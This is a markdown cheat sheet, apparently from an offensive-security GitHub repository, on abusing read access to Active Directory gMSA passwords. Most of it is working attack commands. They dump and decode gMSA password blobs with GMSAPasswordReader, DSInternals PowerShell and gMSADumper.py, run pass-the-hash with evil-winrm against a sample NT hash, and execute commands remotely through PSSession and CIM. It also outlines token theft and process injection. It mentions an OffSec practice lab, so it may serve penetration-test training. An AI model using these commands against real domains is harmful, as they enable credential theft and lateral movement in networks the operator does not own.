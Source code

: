 ### Abusing the Ability to Read GMSA Passwords

#### Overview
There are several ways to abuse the ability to read the Group Managed Service Account (gMSA) password. These methods exploit the intended behavior of gMSAs when they are logged on to computers or when you have access to their credentials. Below is a professional, streamlined cheat sheet outlining these methods and their execution.

---

### Abuse Scenarios

#### 1. GMSA Logged On to a Computer
- **Description**: If the gMSA is currently logged on to a computer account with permission to retrieve its password:
  - **Action**: Steal the token from the process running as the gMSA.
  - **Alternative**: Inject into the process running as the gMSA.

#### 2. GMSA Not Logged On to a Computer
- **Description**: If the gMSA is not logged on to a computer:
  - **Action**: Create a scheduled task or service to run as the gMSA.
  - **Execution**: The computer account will start the task or service as the gMSA, allowing you to abuse the gMSA logon in the same manner as a standard user.
  - **Reference**: See the "HasSession" help modal for additional details on this technique.

---

### Methods to Retrieve gMSA Passwords

#### Using [GMSAPasswordReader.exe](https://github.com/MGamalCYSEC/Active-Directory-Enumeration-and-Attacks/raw/refs/heads/main/Tools/GMSAPasswordReader.exe)
``` shell
.\GMSAPasswordReader.exe --accountname 'Target_Account'
```
![image](https://github.com/user-attachments/assets/5bd3e7f0-c1d6-4eef-b6b0-9491a5d09c59)
`The rc4_hmac hash is the same as the NT hash, they are interchangeable.`
With the user’s NTLM hash, we can perform a pass-the-hash attack using evil-winrm to get a foothold on the victim. 
```shell
evil-winrm -i <Target-IP> -u svc_apache$ -H 41bcd07b8cc9636826fe07ff9539ca57
```

#### **Using Active Directory and DSInternals PowerShell Modules**

1. Save the gMSA password blob to a variable:
   ```powershell
   $gmsa = Get-ADServiceAccount -Identity 'Target_Account' -Properties 'msDS-ManagedPassword'
   $mp = $gmsa.'msDS-ManagedPassword'
   ```

2. Decode the data structure using the DSInternals module:
   ```powershell
   ConvertFrom-ADManagedPasswordBlob $mp
   ```

3. Build an NT-Hash for Pass-the-Hash (PTH):
   ```powershell
   (ConvertFrom-ADManagedPasswordBlob $mp).SecureCurrentPassword | ConvertTo-NTHash
   ```

4. Alternatively, create a Credential Object with the plain password:
   ```powershell
   $cred = New-Object System.Management.Automation.PSCredential "Domain\Target_Account",(ConvertFrom-ADManagedPasswordBlob $mp).SecureCurrentPassword
   ```

---

### Using Credentials

#### **Option 1: Create a New Session**
1. Start a new session:
   ```powershell
   $session = New-PSSession -ComputerName 127.0.0.1 -Credential $cred
   ```

2. Enter the session:
   ```powershell
   Enter-PSSession -Session $session
   ```

3. Run commands remotely:
   ```powershell
   Invoke-Command -Session $session -ScriptBlock { whoami; hostname }
   ```

#### **Option 2: Run Commands via CIM**
1. Build the command:
   ```powershell
   $Command = 'whoami'
   Invoke-CimMethod -CimSession $session -ClassName Win32_Process -MethodName Create -Arguments @{CommandLine=$Command}
   ```
# From kali linux we can use tool [gMSADumper.py](https://github.com/micahvandeusen/gMSADumper/tree/main)
Reads any gMSA password blobs the user can access and parses the values.
```shell
python3 gMSADumper.py -u user -p password -d domain.local
```
Pass the Hash, specific LDAP server:
```shell
python gMSADumper.py -u user -p e52cac67419a9a224a3b108f3fa6cb6d:8846f7eaee8fb117ad06bdd830b7586c -d domain.local -l dc01.domain.local
```
Kerberos Authentication, specific LDAP server:
```shell
python gMSADumper.py -k -d domain.local -l dc01.domain.local
```
### Machine [Heist](https://portal.offsec.com/labs/practice) PGP

